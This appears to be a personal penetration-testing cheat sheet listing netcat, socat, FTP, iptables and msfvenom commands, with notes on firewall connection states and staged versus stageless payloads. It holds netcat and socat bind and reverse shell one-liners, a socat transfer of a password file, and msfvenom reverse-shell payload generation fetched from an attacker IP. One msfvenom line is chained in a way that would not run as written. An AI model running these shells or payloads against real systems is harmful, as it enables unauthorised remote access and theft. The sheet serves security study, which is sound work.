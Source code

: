 ### Show logger
who  
last  
/var/log 检查日志

### Show network connections
netstat -natup  
ss -natup

### Copy file from remote machine to local tmp
scp john@localhost:/var/tmp/CopyMe.txt /tmp  
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2

### echo current shell
echo $SHELL

### echo environmental variable
env

### NC transfering files
```
nc -lvnp 6666 > incoming.txt
nc -nv 192.168.65.61 6666 < incoming.txt
```

### NC bind shell
```
nc -nlvp 4444 -e cmd.exe
nc -nv 10.11.0.22 4444
```

### NC reverse shell
```
nc -nlvp 4444
nc -nv 10.11.0.22 4444 -e /bin/bash
```

### Socat connect remote machine
```
socat - TCP4:ip-address:80
```

### Socat transfer files
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt  
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

### Socat reverse shell
```
socat -d -d TCP4-LISTEN:443 STDOUT(shell listener)
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
socat - TCP4:172.16.53.20:456(shell connection)
```

### FTP(permitted commands:ls,mkdir,put file, get file)
```
anonymous login: ftp ip; username:anonymous;password:blank; 
ascii mode: ascii
binary mode: bin
```

### IPTables
```
sudo iptables -L (show iptables) --line-numbers(optional)
Append a rule to the INPUT chain for a source network of 192.168.1.0/24 for all protocols: sudo iptables -s 192.168.1.0/24 -p all -A(append)/D(delete)/I(insert) INPUT
sudo iptables -s 127.0.0.1 -d 127.0.0.1 -A INPUT
sudo iptables -s 192.168.1.37 -p tcp -A INPUT
sudo iptables -D INPUT 5(linenumber)
sudo iptables -nvL(show traffic)
sudo iptables -P FOWARD DROP(change default policy of forward to drop)
sudo iptables -R(replace) INPUT 1 -s 192.168.1.37 -d 127.0.0.1 -p tcp --dport 8080
Final: sudo iptables-save
```

#### stateful firewall
**INVALID**: The packet is associated with no known connection.  
**NEW**: The packet has started a new connection or otherwise associated with a connection that has not seen packets in both directions.  
**ESTABLISHED**: The packet is associated with a connection that has seen packets in both directions.  
**RELATED**: The packet is starting a new connection, but is associated with an existing connection, such as an FTP data transfer or an ICMP error.  
**UNTRACKED**: The packet is not tracked at all, which happens if you explicitly un-track it by using -j CT --notrack in the raw table.  
```
sudo iptables -I INPUT 1 -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
sudo iptables -I INPUT 2 -m conntrack --ctstate INVALID -j DROP
sudo iptables -L --line-numbers
```
### Msfvenom
msfvenom --list payloads  
msfvenom --list platforms  
msfvenom --list formats  
msfvenom -p linux/x86/shell_reverse_tcp --list-options  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f elf > shell.elf && nc -lvnp 443 && python -c 'import pty;pty.spawn("/bin/bash")'; && export TERM=xterm  
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f exe > windows_reverse.exe && powershell && Invoke-WebRequest -Uri http://192.168.48.2/windows_reverse.exe -OutFile windows_reverse.exe && nc -lvnp 443  
[The shells shown in this listing all have similar names. The key difference here is the separation after the architecture, of the payload names via a '/' or '_'. The payloads that are separated with a '/' character are staged payloads.6 Staged payloads begin the execution process with a small portion of the code that doesn't contain the full payload.Instead, it initiates the payload download from the attacking host after it begins execution. The benefit of a staged payload is that the size of the file is smaller. This may help with upload limitations on a target host. We will not be working with staged payloads, since that would require us to work with Metasploit.Payloads separated by an underscore (_) are stageless payloads.7 Stageless payloads contain the full payload from MSFvenom and do not require any additional resources from the attacker after initial execution. These payloads are larger when they are produced but often don't require the use of Metasploit to obtain shell access.]: <>
